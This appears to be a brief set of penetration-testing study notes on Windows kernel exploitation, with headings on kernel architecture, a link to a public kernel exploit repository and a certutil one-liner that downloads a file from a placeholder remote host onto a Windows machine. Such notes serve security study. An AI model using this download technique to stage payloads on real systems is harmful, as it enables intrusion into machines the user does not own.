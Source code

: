 ### What is a Kernel
![[Pasted image 20210713171410.png]]

### Windows Kernel Architecture
![[Pasted image 20210713171536.png]]

### Windows Kernel Exploit Repository
https://github.com/SecWiki/windows-kernel-exploits

### Oneliner to get files from remote host
```bash
certutil -urlcache -f http://<IP>/<FileName> <Output FileName>
```